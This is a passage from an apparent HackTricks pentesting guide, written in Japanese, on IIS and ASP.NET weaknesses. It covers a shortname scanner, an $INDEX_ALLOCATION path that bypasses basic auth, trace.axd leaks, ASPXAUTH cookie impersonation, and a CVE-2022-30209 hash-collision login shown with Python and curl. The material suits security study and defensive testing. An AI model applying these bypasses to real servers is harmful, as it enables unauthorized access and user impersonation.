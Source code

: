 **metasploit**も使用できます：`use scanner/http/iis_shortname_scanner`

### 基本認証のバイパス

基本認証（**IIS 7.5**）を**バイパス**しようとする場合：`/admin:$i30:$INDEX_ALLOCATION/admin.php`または`/admin::$INDEX_ALLOCATION/admin.php`

この**脆弱性**と前のものを**組み合わせて**新しい**フォルダー**を見つけ、認証を**バイパス**することができます。

## ASP.NET Trace.AXD 有効なデバッグ

ASP.NETにはデバッグモードが含まれており、そのファイルは`trace.axd`と呼ばれます。

これは、一定期間にアプリケーションに対して行われたすべてのリクエストの非常に詳細なログを保持します。

この情報には、リモートクライアントのIP、セッションID、すべてのリクエストおよびレスポンスのクッキー、物理パス、ソースコード情報、さらにはユーザー名やパスワードが含まれる可能性があります。

[https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/](https://www.rapid7.com/db/vulnerabilities/spider-asp-dot-net-trace-axd/)

![Screenshot 2021-03-30 at 13 19 11](https://user-images.githubusercontent.com/31736688/112974448-2690b000-915b-11eb-896c-f41c27c44286.png)

## ASPXAUTHクッキー

ASPXAUTHは次の情報を使用します：

* **`validationKey`**（文字列）：署名検証に使用する16進エンコードされたキー。
* **`decryptionMethod`**（文字列）：（デフォルトは「AES」）。
* **`decryptionIV`**（文字列）：16進エンコードされた初期化ベクトル（デフォルトはゼロのベクトル）。
* **`decryptionKey`**（文字列）：復号化に使用する16進エンコードされたキー。

ただし、一部の人々はこれらのパラメータの**デフォルト値**を使用し、**ユーザーのメールアドレスをクッキーとして使用**します。したがって、ASPXAUTHクッキーを使用している**同じプラットフォーム**のウェブを見つけ、攻撃対象のサーバーで**なりすましたいユーザーのメールアドレスでユーザーを作成**できれば、**2つ目のサーバーのクッキーを最初のサーバーで使用**してユーザーになりすますことができるかもしれません。\
この攻撃はこの[**writeup**](https://infosecwriteups.com/how-i-hacked-facebook-part-two-ffab96d57b19)で成功しました。

## キャッシュされたパスワードを使用したIIS認証バイパス (CVE-2022-30209) <a href="#id-3-iis-authentication-bypass" id="id-3-iis-authentication-bypass"></a>

[こちらに完全なレポートがあります](https://blog.orange.tw/2022/08/lets-dance-in-the-cache-destabilizing-hash-table-on-microsoft-iis.html)：コードのバグは**ユーザーによって提供されたパスワードを適切にチェックしなかった**ため、**パスワードハッシュがキャッシュ内のキーにヒットする**攻撃者は、そのユーザーとしてログインできるようになります。
```python
# script for sanity check
> type test.py
def HashString(password):
j = 0
for c in map(ord, password):
j = c + (101*j)&0xffffffff
return j

assert HashString('test-for-CVE-2022-30209-auth-bypass') == HashString('ZeeiJT')

# before the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 401 Unauthorized

# after the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 200 OK
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\